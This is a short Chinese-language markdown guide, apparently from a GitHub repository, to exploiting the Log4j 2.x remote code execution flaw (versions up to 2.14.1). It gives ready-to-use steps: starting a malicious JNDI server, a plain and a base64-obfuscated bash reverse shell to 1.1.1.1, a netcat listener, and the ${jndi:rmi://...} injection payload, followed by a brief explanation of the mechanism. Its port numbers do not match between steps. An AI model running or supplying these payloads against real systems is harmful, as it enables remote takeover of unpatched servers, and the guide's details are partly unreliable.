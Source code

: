 # Log4j RCE

## 利用条件：

- Apache Log4j 2.x <= 2.14.1

## 利用方法：

### 步骤一：架设恶意JNDI服务
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "要执行的命令" -A 服务器地址`
```java
base64编码：
bash -i >& /dev/tcp/1.1.1.1/1989 0>&1
反弹shell命令：
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzE5ODkgMD4mMQ==}|{base64,-d}|{bash,-i}
```
![](img/JNDI.png)

### 步骤二：开启监听
`nc -lvp 1898`

### 步骤三：POC
`${jndi:rmi://1.1.1.1:1898/pgjs5s}`

## 漏洞原理：
1. Log4j会把 `${}` 括号中的语句作为命令执行。
2. 注入攻击语句经过解析会先访问ldap服务器，然后由ldap解析出我们要的文件名，ldap向HTTP服务器请求获取这个文件，最后网站服务器在本地实例化并执行这个java类，即攻击者的攻击脚本得到执行。